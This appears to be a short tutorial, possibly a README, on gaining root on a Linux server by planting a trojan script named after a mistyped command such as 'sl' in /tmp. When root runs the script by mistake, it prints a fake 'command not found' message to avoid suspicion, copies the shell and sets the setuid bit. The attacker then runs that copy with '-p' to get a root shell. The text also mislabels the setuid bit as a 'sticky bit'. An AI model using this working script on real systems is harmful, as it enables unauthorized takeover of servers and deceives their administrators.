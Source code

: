Lets suppose you have ssh access on a server as a testuser .
You can cd on tmp directory and create the following simple script .
The whole idea is to accidentaly make a root user execute our script . This will be possible if we name our executable as a possible wrong command like sl (not ls) .
Then we will copy root user's shell to onother executable where we will have access . Executing the new executable  will give us root privilleges.
(assuming the command spelling error happens from a root user , we'll need to wait a bit :P. You can also write multiple scripts with wrong spelled commands )

```
#cd on /tmp as any user without privilleges and create the following script.
#Its important to name your script , as a frequent wrong possible command like sl(not ls) , mroe(not more) etc..
vim sl

#!/bin/bash 
echo "bash: sl not found "
cp $SHELL /tmp/myfile
chmod u+s /tmp/myfile

```
1. echo "bash: sl not found " ---> informs the user that accidentally executed our script that his command was spelled wrong , in order to not be suspicious.
2. cp $SHELL /tmp/myfile ---> copies the user's, that executed our script, bash shell to /tmp/myfile
3. chmod u+s /tmp/myfile -----> enables sticky bit , so if it is a root user we will then execute the new script , as root.

When a root user accidentally types sl instead of ls on /tmp , he runs our executable and the /tmp/myfile is finally created .It is  important to execute the new file  with the -p option to keep the privilleges of the root.

```
cd /tmp
./myfile -p

```

Enjoy your root shell.
